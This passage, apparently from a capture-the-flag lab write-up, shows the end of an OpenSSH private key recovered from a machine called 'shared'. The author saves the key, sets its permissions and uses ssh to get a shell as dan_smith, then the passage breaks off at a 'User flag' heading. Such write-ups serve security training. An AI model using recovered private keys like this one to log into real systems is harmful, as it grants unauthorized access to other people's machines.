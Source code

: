 ```bash
EAAAGBAL1hZMxEMPbrCJp2e2QM3n5t+K/ueAvb248pjZeKcMTST2jUh23Vjvv/jj4dPyoj
4O9BnWhVoYJvKhHxVyxF1G50jJIgeyWwt3wnwwhlGJqfUIokAtMYhXmkm72RcAODQmaLsw
FtVv2V3utC2gF1QJRCG7hjlXDa1X4fl8lwxbxMq3uQVjQEUEmq1eQhl5OpLrI4m+VO73Sl
wEnqD0h5lsxYrJqJH2MvDsrqXfMtVlwOI3M7failIAXrVVA4motXJBQXj1peBt8qkNoIbh
4QzwQvpQpd5jH9VyeyYJt7GvhLkT2RQwlIkwksQPC7LmK1gMArcSYGt9c1sRRwFU4UcHym
+EIdpfa1xrSuhtOfg11o/jgHv0N+IAjIBRuId5j8O7Uc9qZU0QUH4C3K71Q6ELXjzhHP17
lX3/pEB+z1PSdXNBf4Qu4G5JZtmwPGEzZZwkNmdmfh0s3hFw+a17QgOvReBLtRQqHS0TgC
zT4KwDOC4DGw98WluQamVq5tuLj/5QAAAAMBAAEAAAGBAK05auPU9BzHO6Vd/tuzUci/ep
wiOrhOMHSxA4y72w6NeIlg7Uev8gva5Bc41VAMZXEzyXFn8kXGvOqQoLYkYX1vKi13fG0r
SYpNLH5/SpQUaa0R52uDoIN15+bsI1NzOsdlvSTvCIUIE1GKYrK2t41lMsnkfQsvf9zPtR
1TA+uLDcgGbHNEBtR7aQ41E9rDA62NTjvfifResJZre/NFFIRyD9+C0az9nEBLRAhtTfMC
E7cRkY0zDSmc6vpn7CTMXOQvdLao1WP2k/dSpwiIOWpSLIbpPHEKBEFDbKMeJ2G9uvxXtJ
f3uQ14rvy+tRTog/B3/PgziSb6wvHri6ijt6N9PQnKURVlZbkx3yr397oVMCiTe2FA+I/Y
pPtQxpmHjyClPWUsN45PwWF+D0ofLJishFH7ylAsOeDHsUVmhgOeRyywkDWFWMdz+Ke+XQ
YWfa9RiI5aTaWdOrytt2l3Djd1V1/c62M1ekUoUrIuc5PS8JNlZQl7fyfMSZC9mL+iOQAA
AMEAy6SuHvYofbEAD3MS4VxQ+uo7G4sU3JjAkyscViaAdEeLejvnn9i24sLWv9oE9/UOgm
2AwUg3cT7kmKUdAvBHsj20uwv8a1ezFQNN5vxTnQPQLTiZoUIR7FDTOkQ0W3hfvjznKXTM
wictz9NZYWpEZQAuSX2QJgBJc1WNOtrgJscNauv7MOtZYclqKJShDd/NHUGPnNasHiPjtN
CRr7thGmZ6G9yEnXKkjZJ1Neh5Gfx31fQBaBd4XyVFsvUSphjNAAAAwQD4Yntc2zAbNSt6
GhNb4pHYwMTPwV4DoXDk+wIKmU7qs94cn4o33PAA7ClZ3ddVt9FTkqIrIkKQNXLQIVI7EY
Jg2H102ohz1lPWC9aLRFCDFz3bgBKluiS3N2SFbkGiQHZoT93qn612b+VOgX1qGjx1lZ/H
I152QStTwcFPlJ0Wu6YIBcEq4Rc+iFqqQDq0z0MWhOHYvpcsycXk/hIlUhJNpExIs7TUKU
SJyDK0JWt2oKPVhGA62iGGx2+cnGIoROcAAADBAMMvzNfUfamB1hdLrBS/9R+zEoOLUxbE
SENrA1qkplhN/wPta/wDX0v9hX9i+2ygYSicVp6CtXpd9KPsG0JvERiVNbwWxD3gXcm0BE
wMtlVDb4WN1SG5Cpyx9ZhkdU+t0gZ225YYNiyWob3IaZYWVkNkeijRD+ijEY4rN41hiHlW
HPDeHZn0yt8fTeFAm+Ny4+8+dLXMlZM5quPoa0zBbxzMZWpSI9E6j6rPWs2sJmBBEKVLQs
tfJMvuTgb3NhHvUwAAAAtyb290QHNoYXJlZAECAwQFBg==
-----END OPENSSH PRIVATE KEY-----
```

## Shell as dan_smith

```bash
➜  content nano id_rsa
➜  content chmod 600 id_rsa
➜  content ssh -i id_rsa dan_smith@10.10.11.172
Linux shared 5.10.0-16-amd64 #1 SMP Debian 5.10.127-1 (2022-06-30) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Jul 14 14:43:34 2022 from 10.10.14.4
dan_smith@shared:~$
```

## User flag
